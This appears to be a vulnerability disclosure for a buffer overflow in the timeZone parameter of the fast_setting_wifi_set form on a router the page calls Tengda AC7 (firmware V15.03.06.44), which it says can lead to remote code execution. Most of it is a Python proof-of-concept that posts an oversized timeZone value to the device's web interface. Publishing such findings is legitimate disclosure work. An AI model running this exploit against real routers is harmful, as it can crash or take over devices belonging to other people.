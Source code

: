 form_fast_setting_wifi_set timeZone
---------------------------------------

### Vulnerability Details

This vulnerability lies in the `/goform/fast_setting_wifi_set` page

Tengda AC7 V1.0 V15.03.06.44 found a buffer overflow caused by the timeZone parameter in the form\_fast\_setting\_wifi\_set function, which can cause RCE:

![image](https://github.com/user-attachments/assets/387bfe10-e1c0-4312-a179-156bed2898bb)


### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/fast_setting_wifi_set"
headers = {
    "Host": "192.168.142.100",
    "Content-Length": "1391",
    "Accept": "*/*",
    "X-Requested-With": "XMLHttpRequest",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Origin": "http://192.168.142.100",
    "Referer": "http://192.168.142.100/parental_control.html?random=0.7058891673130268&",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Connection": "close",
    "Cookie": "password=iqb1qw; bLanguage=cn"
}


long_part = "Raining101" * 0x100
timeZone_value = f"{long_part}:{long_part}"  

data = {
    "ssid": "1",
    "timeZone": timeZone_value
}

response = requests.post(url, headers=headers, data=data)
print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")
```

![image](https://github.com/user-attachments/assets/e4e175e3-4637-4e34-a4d2-e785e424af4c)

